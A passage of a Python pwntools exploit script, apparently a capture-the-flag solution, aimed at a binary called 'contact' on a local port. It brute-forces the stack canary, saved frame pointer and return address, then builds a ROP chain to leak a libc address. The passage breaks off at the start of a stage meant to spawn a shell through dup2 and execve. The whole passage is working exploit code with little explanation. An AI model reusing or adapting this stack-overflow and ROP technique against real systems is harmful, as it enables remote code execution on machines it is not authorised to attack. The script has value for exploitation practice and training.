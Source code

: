```
    return result

if len(sys.argv) != 2 or sys.argv[1] not in ['local','remote']:
    print("Usage: %s [target]\ntarget is local or remote\n" % sys.argv[0])
    sys.exit(1)
target = sys.argv[1]

elf = context.binary = ELF('./contact', checksec=False)
host = '127.0.0.1'
port = 1337

### Stage 0: Brute force addresses
log.info("Starting brute force")
exploit = b"A"*56
canary = brute_word(exploit, 8, 'Canary')
#canary = p64(0xc3c00f67449ca300)
exploit += canary

rbp = brute_word(exploit, 8, 'RBP')
#rbp = p64(0x00007ffdf7d5285c)
exploit += rbp

ret = brute_word(exploit, 7, 'Return Address', b'\x62')
#ret = p64(0x0000556ff9dd4562)

### Stage 1: Leak libc
# Gadgets
prog_base = u64(ret) - 0x1562
pop_rdi_ret = p64(0x164b + prog_base)
pop_rsi_r15_ret = p64(0x1649 + prog_base)
pop_rdx_ret = p64(0x1265 + prog_base)
write = p64(0x1050 + prog_base)
write_got = p64(0x4028 + prog_base)

junk = b"A"*56
exploit =  junk + canary + rbp

# write(4, write_got, 8)
exploit += pop_rdi_ret
exploit += p64(4)
exploit += pop_rsi_r15_ret
exploit += write_got
exploit += p64(0)
exploit += pop_rdx_ret
exploit += p64(8)
exploit += write

log.info("Sending exploit to leak libc write address")
p = remote(host, port)
p.recvuntil("Please enter the message you want to send to admin:\n")
p.send(exploit)
libc_write = p.recv(8, timeout=300)
log.success(f"libc write address: 0x{u64(libc_write):016x}")
p.close()

### Stage 2: Shell
# build rop

if target == 'local':
# readelf -s /lib/x86_64-linux-gnu/libc-2.29.so | grep -e " dup2@@GLIBC" -e " execve@@GLIBC" -e " write@@GLIBC"
#  1011: 00000000000ebf00    33 FUNC    WEAK   DEFAULT   14 dup2@@GLIBC_2.2.5
#  1509: 00000000000c7d60    33 FUNC    WEAK   DEFAULT   14 execve@@GLIBC_2.2.5
```